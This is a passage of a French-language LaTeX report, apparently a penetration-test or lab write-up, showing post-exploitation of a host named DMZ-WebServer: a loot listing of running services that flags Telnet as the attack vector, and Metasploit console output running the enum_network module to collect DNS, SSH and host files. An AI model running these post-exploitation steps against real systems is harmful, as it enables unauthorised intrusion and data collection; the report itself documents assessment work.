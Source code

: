 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
\textbf{Données Totales Collectées :} 273 octets (43 comptes utilisateurs).

\subsection{Services en Cours d'Exécution}

\begin{lstlisting}[style=logstyle,caption=Fichier de Loot : Services Actifs]
	[ + ]  apparmor          # Mandatory Access Control
	[ + ]  cron              # Scheduled Tasks
	[ + ]  docker            # Container Runtime
	[ + ]  fail2ban          # Intrusion Prevention
	[ + ]  inetutils-inetd   # Telnet Provider (ATTACK VECTOR)
	[ + ]  ssh               # Secure Shell
	[ + ]  ufw               # Uncomplicated Firewall
\end{lstlisting}

\textbf{Observation Critique :} Le service \texttt{inetutils-inetd} (Telnet) est actif malgré la présence de \texttt{fail2ban}. Cela suggère que Fail2Ban n'est pas configuré pour surveiller Telnet.

\subsection{Énumération Réseau}

\begin{lstlisting}[caption=Module post/linux/gather/enum\_network]
	[msf](Jobs:0 Agents:2) >> use post/linux/gather/enum_network
	[msf](Jobs:0 Agents:2) post(linux/gather/enum_network) >> set SESSION 2
	SESSION => 2
	
	[msf](Jobs:0 Agents:2) post(linux/gather/enum_network) >> run
	
	[*] Running module against DMZ-WebServer (::1)
	[*] Module running as telnetuser
	[+] Info:
	[+]     Ubuntu 25.04
	[*] Collecting data...
	[+] DNS config stored in ~/.msf4/loot/20260304153844_linux.enum.netwo_867480.txt
	[+] SSHD config stored in ~/.msf4/loot/20260304153844_linux.enum.netwo_801493.txt
	[+] Host file stored in ~/.msf4/loot/20260304153844_linux.enum.netwo_984732.txt
	[+] Active connections stored in ~/.msf4/loot/20260304153844_linux.enum.netwo_196858.txt
	[*] Post module execution completed
\end{lstlisting}

\subsection{Connexions Actives (Preuve de C2)}
\end{document}
